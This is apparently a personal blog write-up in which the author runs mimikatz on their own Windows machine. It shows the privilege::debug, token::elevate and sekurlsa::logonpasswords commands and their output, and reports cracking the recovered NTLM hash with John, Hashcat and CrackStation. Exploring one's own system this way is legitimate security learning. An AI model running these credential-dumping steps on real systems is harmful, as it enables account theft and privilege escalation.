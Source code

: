 ```bash
┌──(abu㉿Abuntu)-[/mnt/c/Documents4/CyberSec/Resources/mimikatz/output]
└─$ sudo ./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Jul  6 2024 01:38:32
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK
```

Now, that I’m here. Let’s look at the security of my own system. Turns out, it’s trash. I keep crazy passwords for my online accounts and keep a baby one for the local machine. I used this one as reference, trying to reveal without the `token::elevate` doesn’t work

```bash
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

844     {<>} 0 D 87666          NT AUTHORITY\SYSTEM     <>        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {<>} 2 F 73346244    ABUNTU\Abu      <>  (14g,24p)     P
rimary
 * Thread Token  : {<>} 0 D 73744278    NT AUTHORITY\SYSTEM     <>        (04g,31p)       Impersonation (Delegati
on)

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; <>(00000000:<>)
Session           : Service from 0
User Name         : <>
Domain            : NT VIRTUAL MACHINE
Logon Server      : (null)
Logon Time        : 05-07-2024 22:03:00
SID               : <>
        msv :
        tspkg :
        wdigest :
         * Username : ABUNTU$
         * Domain   : WORKGROUP
         * Password : (null)
```

Crazy, am having goosebumps ! Looking around I find the NT-Authority(ADMIN) NTLM hash. Out of curiosity I try to brute force it. And it came back with hits in both(John/Hashcat) of them. Even in CrackStation. 

